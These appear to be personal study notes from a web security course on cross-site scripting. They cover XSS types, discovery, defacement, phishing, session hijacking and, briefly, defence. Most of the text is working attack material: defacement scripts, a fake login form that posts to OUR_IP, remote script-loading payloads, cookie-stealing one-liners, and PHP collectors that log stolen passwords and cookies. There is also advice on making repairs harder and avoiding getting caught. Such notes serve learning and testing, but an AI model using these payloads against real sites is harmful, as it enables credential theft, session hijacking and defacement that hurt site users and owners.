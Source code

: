 # xss
* cross site scripting
* browser based vulnerabilities
* inject javascript in poorly santized input
* stored persistent XSS
  * user input stored in backend to be displaye dot others
* Reflected XSS
  * non persistent, user input displayed on page after being process but without being stored
* DOM based XSS
  * non persistent, input directly shown in the rbwoser and completely process by client side without reaching the server

## Stored XSS
* if the xss payload is stored, the attack is persistent and can effect other users
* <script>alert(window.origin)</script> can tell you if xss is executed, and where it is executed
  * many browser use IFrames for input, so if webform is vulnerable it doesnt impace main site. Using the alert window.origin tells us the URL being executed on
* <script>print()</script>  also works
* remember to confirm that our code is in the webpage by using inspect element

## Non persistent XSS
* reflected XSS:
  * input reaches server, returned to us without sanitization
  * they are not persistent
  * how can this be used to target victims then?
  * sometimes inputs are stored in the query of the url
  * we can give them a url with the query containing our xss
  * confirm this with network view in the developer tools

* DOM xss
  * completely processed client side using JS
  * if input parameter in URL uses #, it is handled by the browser. No requests made to backend
  * when browser is refreshed, the data disappears
  * Source and Sink
    * Source is javascript object taking user input, any input 
    * Sink is function writing user input to DOM object. If sink not santiizing input, its vulnerable to XSS
      * `document.write()`
      * `DOM.innerHTML`
      * `DOM.outerHTML`
      * in jquery
        * `add()`
        * `after()`
        * `append()`
    * if a page uses these without sanitizing, it is vulnerable
    * these dont tend to allow <script> tags though
    * so we have to use a new method
    * <img src="" onerror=alert(window.origin)>
    * 

## XSS Discovery
* automated discovery
  * tools like nessus, burp pro, zap
  * passive scan: view client side code to find DOM vectors
  * active scan: send payloads via http to find persistent or reflective vectors
  * `xss strike` is open source and free for this purpose
* manual discovery
  * manual xxs discovery
  * for simple attacks, just testing randomly on enemy system is good enough
  * in more advanced situations, you need to develop code review skill

### XSS Payloads
* XSS can be injected inbto any HTML page, not just input fields. HTTP headers, cookies, user agents, etc, can be used. CSS Style attributes work sometimes too
* code review

### Defacement
* damaging website frontent using persistent XSS
* three html things to change the website look:
  * backgroudn color: document.body.style.background
  * background: document.body.background
  * page title: document.title
  * page text: DOM.innerHTML
* after doing our defacement, its best to also get rid of the vulnerability ourselves in order to make changing back harder
#### changing background
* <script>document.body.style.background = "#141d2b"</script>

#### changing page title
* <script>document.title = 'HackTheBox Academy'</script>

#### changing page text
* <script>document.getElementById("todo").innerHTML = "New Text"</script> will change  an element
* or with jquery
  * $("#todo").html('New Text');
* <script>document.getElementsByTagName('body')[0].innerHTML = "New Text"</script> will change the elemtn by tag name, in this case the hwole body
  * [0] means first body element
* instead of doing one thing at a time, we could also just use innerHTML to change entire webpage to our will
* also test our payload.. to make sure it works!!!
* <script>document.getElementsByTagName('body')[0].innerHTML = 'penis man was here'</script>

### Phishing
* Phishing utilize legitimate information to trick victims into sending information
* XSS phishing is done by injecting fake login forms which send login details to attacker server
* allows login on behalf of user

here is some such code

<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>

also, you can load remote code with:

<script src="http://OUR_IP/script.js"></script>

* this creates a form on the wesbite, with the action to send the information back to our ip
* in order to deploy this payload, we can do `document.write(payload)`
* to remove other elements, use `document.getElementById(element id).remove()`
* to get rid of other things, use comments
* to set up a listener, we just use nc to listen on port 80
* probably not a good idea to put your own ip on the website, good way to get caught!!!
* if we just use nc though the webpage will return an unable to connect error
* we should use a php script that logs credentials and redirects to the original page

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

* simple php script receives request, extract username and password, write to file, then redirect using the header function
* 

### SEssion hijacking
* web apps use cookies to maintain connection and authentication
* if we hijack cookies, we can steal their login session

#### blind XSS vulnerabiltiies
* when the vulnerability is on a page we cannot access
* forms only accessible by admins or something
* contact forms, reviews, user details, tickets, https user agent headers
* say we submit a form to be reviewed by an admin. WE cant see how the admin's client handles the input, so what gives?
* to detect vulnerabilities, put our code in the request. This code will send a message to our server, and if we receive something, the webpage is vulnerable
  * how do we know which field is vulnerable?
  * what xss payload to use?
* using the remote code execution method, getting the code from a file on our system dynamically, can help us test different methods
* if we rename the script to whichever field we are testing against, then we know the field name if we get a request from that script


<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

* good to encapsulate multiple payloads into one for redundancy
* we shoudl also consider the field type we are attacking
  * email fields usually require email formatted strings
  * passwords dont store in plaintext

### cookie grabbing
```
  document.location='http://OUR_IP/index.php?c='+document.cookie;
``````
  new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
the first of these navigates to a cookie grabber page, the second displays an image (which captures our cookie by embedding our php source file)

this script will do the job
`<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>`

* separates cookies into a list so that they can be printed pretty
* when we steal the cookie, we go to storage and paste it in place of our own

## XSS Defense
* we should defend user IO on websites
* input sanitization is especially important
* DOMPurify can prevent javascript code from entering our ecosystem
* we should never use input directly within javascript code, css code, tag or attribute fields, or comments
* dont use vulnerable javascript functions